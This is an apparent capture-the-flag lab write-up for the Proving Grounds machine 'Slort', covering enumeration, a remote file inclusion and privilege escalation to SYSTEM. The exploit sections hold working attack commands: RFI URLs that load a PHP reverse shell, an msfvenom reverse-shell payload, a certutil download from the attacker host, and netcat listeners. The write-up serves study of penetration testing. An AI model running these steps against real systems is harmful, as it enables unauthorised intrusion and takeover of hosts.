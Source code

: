 ```yaml
---
layout: post
title: PG | Slort
subtitle: For this machine, enumeration is key.
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 07:45 UTC
Nmap scan report for 192.168.182.53
Host is up (0.015s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, HTTPOptions, NULL, SIPOptions, SMBProgNeg, TLSSessionReq, TerminalServerCookie, WMSRequest, ms-sql-s, oracle-tns: 
|_    Host '192.168.45.185' is not allowed to connect to this MariaDB server
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.182.53:4443/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.182.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-29T07:48:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 189.12 seconds
~~~

## FTP (TCP/21)

I begun enumeration by attempting an anonymous connection to FTP which failed
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ ftp anonymous@192.168.182.53 
Connected to 192.168.182.53.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit http://sourceforge.net/projects/filezilla/
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
~~~

## SMB (TCP/139, 445)

I attempted a NULL SMB session which also failed
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ smbclient -N -L //192.168.182.53
session setup failed: NT_STATUS_ACCESS_DENIED
~~~

## MySQL (TCP/3306)

In the nmap scan it states our IP is unable to connect to the MariaDB server on the target, this is most likely because the server is hosted locally on port 127.0.0.1 and inaccessible over the internet

Oracle-TNS uses encryption and TLS to protect database communication over a network
~~~shell
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, HTTPOptions, NULL, SIPOptions, SMBProgNeg, TLSSessionReq, TerminalServerCookie, WMSRequest, ms-sql-s, oracle-tns: 
|_    Host '192.168.45.185' is not allowed to connect to this MariaDB server
~~~
## HTTP (TCP/4443)

I first ran a feroxbuster subdirectory scan and found 3 sub-directories: site, dashboard and img
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ feroxbuster -u http://192.168.182.53:4443 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o SlortDirs
~~~
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ cat SlortDirs         
301      GET        9l       30w      346c http://192.168.182.53:4443/site => http://192.168.182.53:4443/site/
302      GET        0l        0w        0c http://192.168.182.53:4443/ => http://192.168.182.53:4443/dashboard/
301      GET        9l       30w      345c http://192.168.182.53:4443/img => http://192.168.182.53:4443/img/
~~~
After browsing to http://192.168.182.53:4443/site I immediately noticed the URL could potentially contain a File Inclusion vulnerability

![Slort](/assets/img/SlortPG(1).png)

I started by testing for Local File Inclusion by attempting to pull files from the target machine and display them on the website using common Windows file paths from [here](https://gist.github.com/korrosivesec/a339e376bae22fcfb7f858426094661e) which succeeded!

![Slort](/assets/img/SlortPG(2).png)

I then tested if a Rmote File Inclusion (RFI) exists by starting a HTTP server on my attack machine then sending a HTTP GET request through the targets URL 'page' parameter
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ python3 -m http.server 80                                                            
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

![Slort](/assets/img/SlortPG(3).png)

~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.182.53 - - [29/Oct/2023 08:34:28] "GET /test HTTP/1.0" 200 -
~~~
The RFI worked! We can therefore try to transfer a shell and get our initial foothold

# Exploit

I downloaded [this](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php) PHP Reverse shell and changed the IP, Port and directory parameters

![Slort](/assets/img/SlortPG(4).png)

![Slort](/assets/img/SlortPG(5).png)

I then downloaded the reverse shell to the host using the RFI
~~~shell
http://192.168.182.53:4443/site/index.php?page=http://192.168.45.185/shell.php
~~~
I started a listener on port 21 to avoid firewall restrictions
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ nc -nvlp 21
listening on [any] 21 ...
~~~
I then ran the reverse shell payload

http://192.168.182.53:4443/site/index.php?page=shell.php

And I recieved my initial foothold!
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ nc -nvlp 21
listening on [any] 21 ...
connect to [192.168.45.185] from (UNKNOWN) [192.168.182.53] 50814
b374k shell : connected

Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\site>
~~~
# Privilege Escalation

I started enumeration for Privilege Escalation by running a winpeas scan and found an executable file 'TFTP.EXE' we have write permissions over

![Slort](/assets/img/SlortPG(6).png)

After navigating to the directory containing the executable, I found an info.txt file that states the file is run every 5 minutes, the Backup directory name indicates that it is most likely ran with SYSTEM (root) permissions

I created a reverse shell .exe using MSFVenom and named it 'TFTP.EXE'
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.185 LPORT=445 -f exe > TFTP.EXE 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
~~~
I started my netcat listener on port 445
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ nc -nvlp 445 
listening on [any] 445 ...
~~~
I then replaced the current TFTP.EXE file with my reverse shell TFTP.EXE
~~~shell
C:\Backup>move TFTP.EXE BACKUPTFTP.EXE
move TFTP.EXE BACKUPTFTP.EXE
        1 file(s) moved.

C:\Backup>certutil.exe -f -urlcache -split http://192.168.45.185/TFTP.EXE
certutil.exe -f -urlcache -split http://192.168.45.185/TFTP.EXE
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
~~~
After a while I recieved a SYSTEM (root) shell on my listener!
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ nc -nvlp 445 
listening on [any] 445 ...
connect to [192.168.45.185] from (UNKNOWN) [192.168.182.53] 50861
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
slort\administrator
~~~